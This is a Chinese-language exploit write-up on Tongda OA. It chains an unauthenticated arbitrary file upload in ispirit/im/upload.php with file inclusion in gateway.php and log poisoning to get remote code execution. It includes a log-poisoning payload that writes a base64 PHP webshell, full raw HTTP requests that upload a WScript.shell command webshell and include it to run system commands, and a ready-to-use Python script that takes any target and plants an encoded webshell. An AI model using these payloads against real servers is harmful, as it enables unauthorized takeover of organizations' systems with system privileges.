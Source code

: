 通达oa 任意文件上传+rce+文件包含
================================

一、漏洞简介
------------

有些版本gateway.php路径不同

例如2013：

    http://www.0-sec.org/ispirit/im/upload.php
    http://www.0-sec.org/ispirit/interface/gateway.php

例如2017：

    http://www.0-sec.org/ispirit/im/upload.php
    http://www.0-sec.org/mac/gateway.php

    C:\MYOA>dir /s /b gateway.php
    C:\MYOA\webroot\mac\gateway.php

2015没有文件包含，官方给的补丁2017的没有修复文件包含，所以还有很多种包含日志文件getshell的姿势，不一定要文件上传。

    http://www.0-sec.org/api/ddsuite/error.php

    POST:message=<?php file_put_contents("2.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUE9TVFsxXSk7Pz4="));?>52011 

    然后包含

    http://www.0-sec.org/mac/gateway.php
    POST:json={"url":"..\/..\/logs\/oa\/2003\/dd_error.log"}

    在http://192.168.124.138/mac/2.php就是shell密码1

二、漏洞影响
------------

V11版2017版2016版2015版2013增强版2013版

三、复现过程
------------

我们根据官网发布的补丁，更新的是ispirit/im/upload.php这个文件，我们跟进这个文件

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId24.png)

当传入P参数时，就可以绕过登录认证，直接获取到session。

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId25.png)

跟进函数流程，逻辑判断是否传入DEST\_UID并且不为0，否则直接退出。

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId26.png)

传入一个DEST\_UID后，访问，提示无文件上传

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId27.png)

1\<=count(\$\_FILES)判断是否有文件上传，后面的逻辑，如果传入文件，直接进入未授权任意文件上传

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId28.png)

可以使用python3的requests库进行文件上传操作，跟进代码，后面判断的是UPLOAD\_MODE上传模式的值，如果传入UPLOAD\_MODE，当取值为1，2，3时，将回显。

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId29.png)

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId30.png)

进入上传逻辑，调用upload()函数，upload()会对上传的文件进行后缀名检测，这里使用name.php.即可绕过文件后缀名限制，调用upload函数后，会返回一个\$ATTACHMENTS数组，这也是后面我们传入上传模式UPLOAD\_MODE值时会根据该值的取值返回\$ATTACHMENTS\[ID\]和\$ATTACHMENTS\[NAME\]

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId31.png)

跟进upload()函数，\$ATTACHMENTS\[ID\]由add\_attach()函数返回在add\_attach()可以看到传入的文件存储路径为

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId32.png)

\$MODULE的值在upload.php文件中指定为im

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId33.png)

存储路径就保存在在upload.php文件中指定的attch/im/\$YM/文件夹下面，文件名就是\$ATTACH\_ID.\$ATTACH\_FILEadd\_attach()函数最终返回的前台的能够回显的\$ATTACHMENTS\[ID\]里面就包含上传的文件名和路径。

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId34.png)

此时，我们就可以构造payloads进行任意文件上传

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId35.png)

但是，开发者指定的保存路径不在wwwroot目录下面，我们只能通过文件包含漏洞进行包含触发漏洞。文件包含漏洞出现在/ispirit/interface/gateway.php，首先接从客户端接收一个\$json的参数，然后将\$json转换为数组后再转换成变量，当存在\$json数据中存在一个key为url的且不为空的值时，并且url传入的数据中有general/或者ispirit/或者module/时，执行include\_once包含该url。

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId36.png)

此处文件包含的另外一个利用，直接触发nginx的错误日志，利用文件包含直接getshell

![](./.resource/通达oa任意文件上传+rce+文件包含/media/rId37.png)

### 请求包

    POST /ispirit/im/upload.php HTTP/1.1
    Host: 10.10.20.116:88
    Content-Length: 658
    Cache-Control: no-cache
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
    Cookie: PHPSESSID=123
    Connection: close

    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="UPLOAD_MODE"

    2
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="P"

    123
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="DEST_UID"

    1
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
    Content-Type: image/jpeg

    <?php
    $command=$_POST['cmd'];
    $wsh = new COM('WScript.shell');
    $exec = $wsh->exec("cmd /c ".$command);
    $stdout = $exec->StdOut();
    $stroutput = $stdout->ReadAll();
    echo $stroutput;
    ?>
    ------WebKitFormBoundarypyfBh1YB4pV8McGB--
    POST /mac/gateway.php HTTP/1.1
    Host: 10.10.20.116:88
    Connection: keep-alive
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    Content-Length: 71
    Content-Type: application/x-www-form-urlencoded

    json={"url":"/general/../../attach/im/2003/938379153.jpg"}&cmd=net user

### poc （上传+文件包含+rce）

    import os
    import requests

    # 定义webshell，因为是包含，所以用写入马比较方便
    # 这个马自带bypass disable_function 功能
    shell = '''<?php
    $fp = fopen('readme.php', 'w+');
    $a = base64_decode("JTNDJTNGcGhwJTBBJTI0Y29tbWFuZCUzRCUyNF9HRVQlNWIlMjdhJTI3JTVkJTNCJTBBJTI0d3NoJTIwJTNEJTIwbmV3JTIwQ09NJTI4JTI3V1NjcmlwdC5zaGVsbCUyNyUyOSUzQiUwQSUyNGV4ZWMlMjAlM0QlMjAlMjR3c2gtJTNFZXhlYyUyOCUyMmNtZCUyMC9jJTIwJTIyLiUyNGNvbW1hbmQlMjklM0IlMEElMjRzdGRvdXQlMjAlM0QlMjAlMjRleGVjLSUzRVN0ZE91dCUyOCUyOSUzQiUwQSUyNHN0cm91dHB1dCUyMCUzRCUyMCUyNHN0ZG91dC0lM0VSZWFkQWxsJTI4JTI5JTNCJTBBZWNobyUyMCUyNHN0cm91dHB1dCUzQiUwQSUzRiUzRQ==");
    fwrite($fp, urldecode($a));
    fclose($fp);
    ?>
    '''

    # 输入目标
    url = input("input the TARGET(example:[url]https://127.0.0.1:1080[/url])>")
    # 定义上传目录和包含目录
    upload_url = url+"/ispirit/im/upload.php"
    include_url = url+"/ispirit/interface/gateway.php"
    # 定义shell目录，如果要修改名字，需要把shell里面的一起改了
    shell_url = url+"/ispirit/interface/readme.php"
    files = {'ATTACHMENT': shell}
    # 参见源码，有漏洞的版本只要POST P和DEST_UID参数就会自动生成session
    upload_data = {"P": "123", "DEST_UID": "1", "UPLOAD_MODE": "2"}
    # 上传
    upload_res = requests.post(upload_url, upload_data, files=files)
    # 此时会返回上传文件的路径
    path = upload_res.text
    # 解析返回值获取上传地址
    path = path[path.find('@')+1:path.rfind('|')
                ].replace("_", "\/").replace("|", ".")
    # 由于上传文件会自动改为jpg，所以要用gateway.php包含
    include_data = {"json": "{\"url\":\"/general/../../attach/im/" + path+"\"}"}
    # 包含+自动写入shell
    include_res = requests.post(include_url, data=include_data)
    # 返回结果 a参数可以直接填入系统命令（比如whoami），默认是system权限
    print('shell is here:'+shell_url+'?a=command')
